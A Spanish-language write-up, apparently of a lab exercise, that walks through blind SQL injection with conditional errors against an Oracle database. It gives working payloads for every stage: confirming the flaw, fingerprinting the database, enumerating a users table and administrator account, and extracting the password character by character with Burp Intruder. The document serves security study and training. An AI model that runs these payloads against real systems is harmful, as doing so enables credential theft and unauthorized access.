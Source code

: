# **Blind SQL Injection con Código de Estado (Errores Condicionales) en OracleDB**

Este ataque de Blind SQL Injection aprovecha la diferencia en los códigos de estado HTTP generados por la aplicación cuando se produce un error en la base de datos. Específicamente, provocamos errores intencionales (por ejemplo, división por cero) para inferir información sobre la base de datos y sus contenidos.  

El flujo del ataque sigue estos pasos:

1. **Confirmar la vulnerabilidad**  
2. **Identificar el motor de base de datos**  
3. **Determinar si la tabla "users" existe**  
4. **Confirmar la existencia del usuario "administrator"**  
5. **Descubrir la longitud de la contraseña**  
6. **Extraer la contraseña carácter por carácter**  

---

## **1. Confirmar la Vulnerabilidad en TrackingID**

Se detecta que la aplicación usa el parámetro `TrackingID`, probablemente en una consulta SQL similar a esta:

```sql
SELECT * FROM products WHERE trackingid = 'input'
```

Para comprobar si la entrada es vulnerable, se inyectan comillas simples:

- **Prueba 1:**  
  ```
  TrackingID=xyz'
  ```
  - **Respuesta:** HTTP **500 Internal Server Error**  
  - **Explicación:** Se rompe la sintaxis SQL al agregar una comilla simple extra, lo que indica una posible vulnerabilidad de SQL Injection.

- **Prueba 2:**  
  ```
  TrackingID=xyz''
  ```
  - **Respuesta:** HTTP **200 OK**  
  - **Explicación:** Al agregar dos comillas (`''`), se cierra correctamente la cadena en SQL y no se genera error, confirmando que la entrada se está usando en una consulta SQL sin validación adecuada.

---

## **2. Identificar el Motor de Base de Datos**

Para determinar qué sistema de base de datos está en uso, se utilizan concatenaciones específicas que pueden variar según el SGBD.  

- **Prueba 1:**  
  ```sql
  TrackingID=xyz'||(select '')||'
  ```
  - **Respuesta:** HTTP **500 Internal Server Error**  
  - **Explicación:** Esta sintaxis no es válida en todos los motores de base de datos.

- **Prueba 2 (Oracle específico):**  
  ```sql
  TrackingID=xyz'||(select '' from dual)||'
  ```
  - **Respuesta:** HTTP **200 OK**  
  - **Explicación:** En Oracle, toda consulta `SELECT` requiere una tabla, y la tabla especial `dual` permite hacer consultas sin depender de una tabla real. Si este payload funciona, la base de datos es **Oracle**.

- **Prueba 3 (Tabla aleatoria inexistente):**  
  ```sql
  TrackingID=xyz'||(select '' from randomdb)||'
  ```
  - **Respuesta:** HTTP **500 Internal Server Error**  
  - **Explicación:** Se genera un error porque la tabla `randomdb` no existe.

**Conclusión:**  
El uso exitoso de `dual` confirma que la base de datos es **OracleDB**.

---

## **3. Determinar si la Tabla "users" Existe**

Para verificar si la tabla `users` existe, se intenta ejecutar una consulta en ella:

- **Prueba 1 (Tabla válida):**  
  ```sql
  TrackingID=xyz'||(select '' from users where rownum=1)||'
  ```
  - **Respuesta:** HTTP **200 OK**  
  - **Explicación:** Si la tabla `users` existe, la consulta se ejecuta correctamente sin errores.

- **Prueba 2 (Tabla inexistente):**  
  ```sql
  TrackingID=xyz'||(select '' from usersXYZ where rownum=1)||'
  ```
  - **Respuesta:** HTTP **500 Internal Server Error**  
  - **Explicación:** Se genera un error porque `usersXYZ` no existe en la base de datos.

**Conclusión:**  
Si la consulta sobre `users` devuelve un **200 OK** y la consulta sobre `usersXYZ` devuelve un **500**, entonces la tabla `users` existe.

---

## **4. Comprobar si el Usuario "administrator" Existe**

Para comprobar si el usuario `administrator` existe en la tabla `users`, se usa una consulta condicional con un error intencional:

- **Prueba 1 (Usuario Existe):**  
  ```sql
  TrackingID=xyz'||(select case when (1=1) then to_char(1/0) else '' end from users where username = 'administrator')||'
  ```
  - **Respuesta:** HTTP **500 Internal Server Error**  
  - **Explicación:**  
    - La consulta filtra por `username='administrator'`.  
    - Si el usuario existe, el `CASE` se evalúa y ejecuta `TO_CHAR(1/0)`, lo que genera un error de división por cero.  
    - Este error provoca que la aplicación devuelva un **500**.

- **Prueba 2 (Usuario No Existe):**  
  ```sql
  TrackingID=xyz'||(select case when (1=1) then to_char(1/0) else '' end from users where username = 'administratorXYZ')||'
  ```
  - **Respuesta:** HTTP **200 OK**  
  - **Explicación:**  
    - Si el usuario no existe, el `WHERE` no encuentra registros.  
    - Como el `CASE` nunca se ejecuta, no se genera el error, y la aplicación devuelve un **200 OK**.

**Conclusión:**  
Si la consulta con `administrator` devuelve un **500**, significa que el usuario existe.

---

## **5. Determinar la Longitud de la Contraseña**

Para averiguar la longitud de la contraseña del usuario `administrator`, se prueba con condiciones de longitud crecientes:

- **Ejemplo para comprobar si la longitud es mayor que 19:**  
  ```sql
  TrackingID=xyz'||(select case when length(password) > 19 then to_char(1/0) else '' end from users where username='administrator')||'
  ```
  - **Respuesta:** HTTP **500 Internal Server Error**  
  - **Explicación:** Si `length(password) > 19` es verdadero, se ejecuta `TO_CHAR(1/0)`, generando un error.

- **Se repite aumentando el valor hasta encontrar el punto en que deja de generar error:**  
  - **Prueba con `> 20` → HTTP 200 OK**  
  - **Conclusión:** La contraseña tiene **20 caracteres**.

---

## **6. Extraer la Contraseña Carácter por Carácter**

Una vez determinada la longitud, se extrae cada carácter usando `SUBSTR`.  
Para cada posición, se prueba cada posible carácter (a–z, 0–9) hasta provocar un error (HTTP 500).

- **Ejemplo para extraer el primer carácter:**  
  ```sql
  TrackingID=xyz'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
  ```
  - **Respuesta:** HTTP **500 Internal Server Error** → El primer carácter es `'a'`.
  - **Respuesta:** HTTP **200 OK** → No es `'a'`, se prueba `'b'`, `'c'`, etc.

Este proceso se repite para cada posición hasta reconstruir la contraseña completa.

**Automatización con Burp Suite:**  
- Se usa **Burp Intruder** en modo **Cluster Bomb**.  
- Payload 1: Número de carácter (1, 2, 3, …, 20).  
- Payload 2: Carácter posible (a-z, 0-9).  
- Se filtran respuestas con código **500**, lo que indica coincidencias.

---

# **Conclusión**

Este método de **Blind SQL Injection basado en errores condicionales** permite extraer información sensible sin necesidad de ver la salida directa de la consulta.  

Al utilizar errores de división por cero y analizar los códigos de estado HTTP (200 vs 500), logramos:

✔️ Confirmar la vulnerabilidad  
✔️ Identificar Oracle como motor de base de datos  
✔️ Verificar la existencia de tablas y usuarios  
✔️ Determinar la longitud de la contraseña  
✔️ Extraer la contraseña carácter por carácter  

Este ataque es muy efectivo cuando la aplicación no muestra errores explícitos en la página, pero sí en los códigos de estado HTTP.
